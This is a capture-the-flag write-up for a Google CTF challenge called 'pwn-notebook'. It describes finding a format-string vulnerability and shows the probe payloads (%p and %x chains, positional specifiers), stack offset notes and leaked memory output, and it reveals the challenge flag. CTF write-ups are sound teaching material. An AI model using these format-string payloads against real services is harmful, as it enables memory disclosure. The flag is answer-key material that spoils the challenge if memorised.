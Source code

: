 ## Brief

Wow, it’s a crowded day at Heathrow, lots of suits that bump into each other and try to catch their plane. You have to find the gate to the secret warehouse, it cannot be far away. You see a suspicious suit go into a fast food court and you spot him disappear behind the checkout. Hmmm, odd?! You follow, and when no one sees you follow him. You go through a desolated kitchen, it stinks, you cover your nose with the back of your hand. You pass through a small entrance, and enter the secret warehouse, wow, it’s vast!

Challenge: pwn-notebook (pwn)
Please help me restore my deleted note.

## Link 

https://capturetheflag.withgoogle.com/pwn-notebook.2021.ctfcompetition.com

## Solve

An elf file with all the protections in the world

accessing the server with nc, we get some notes and a DELETED at position 4

`nc pwn-notebook.2021.ctfcompetition.com 1337`

We have a format string vulnerability here

%s doesnt work but %d and %p do

we can try to enumerate the stack with it (on local)

Pwntools is my friend.

%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p

0x55555555700e.0x2c.0xffffffffffffffd2.0x4.0x7fffffffc3f0.0x28f7dce7e3.0x55555555700e.0x7fffffffc470.0x555555557011.0xa.0x28.0x2e70252e7025202f.0x70252e70252e7025.% \
\ p.0x55555555701a.0x2c.0xffffffffffffffd2.0x4.0x7fffffffc3f0.0x28f7dce7e3

stack at 0x7fffffffc8c0

first var at 0x7fffffffc8f0
secnd var at 0x7fffffffcaec
third var at 0x7fffffffccf8

0x30 from start of stack
48
0x1fc between the 2
508

between 1 and 2:
0x20c (524)

b snprintf in draft\_note : b \*0x0000555555555c12
first line at 0x7fffffffc8f0 (0x204 between)
second line at 0x7fffffffcaf4 (0x203 between)
third line at 0x7fffffffccf8

We write a script to dump the stack contents

```
./solve.py
strings result

< %11$p.%12$p.%13$p.%14$p.%15$p >
%26$p.%27$p.%28$p.%29$p.%35$p
U%511s%96$p.%9102$p.%103$p.%104$p.%105$p
Shipping manifest #1337: Thingomabobs
PSA: The forklift is under maintenance
Note to staff: Please clean up the mess in warehouse 42
Reminder: CTF{format_string_for_the_win}@
^[;&aY
Urgent: The delivery at 15:10 is prioritised@@@
```

Flag is `CTF{format_string_for_the_win}`
